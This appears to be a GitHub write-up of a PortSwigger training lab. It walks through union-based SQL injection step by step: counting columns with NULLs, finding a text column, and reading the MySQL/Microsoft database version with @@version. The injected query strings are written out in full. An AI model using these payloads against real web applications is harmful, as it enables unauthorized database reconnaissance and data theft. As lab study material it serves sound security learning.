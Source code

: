 ## Lab Description :

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/87c37d0d-a9be-450a-91be-316964a825fc)

## Solution :

***Since it is either microsoft or MYQL database use # as comment***

Query made - 

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>'
```

#### Finding out the number of columns -

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' ' UNION SELECT NULL,NULL#
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/cef3ba8e-ec10-4ec7-a5f7-9f9433399c4a)

**2 NULL** returns no error , which means there are 2 columns in the database.

####  Finding out which columns contain text data -

**1st column**

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' UNION SELECT 'Ananthan',NULL --
```
This column contains text data .

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/72b313f5-d507-447a-a4e0-1c57f3a7682a)

####  Database version 

To find version of both MYSQL & Microsoft database are the same - `@@version`

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' UNION SELECT @@version,NULL #
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/ec9f4b71-d3a8-4823-89e4-941a8ae81fa7)

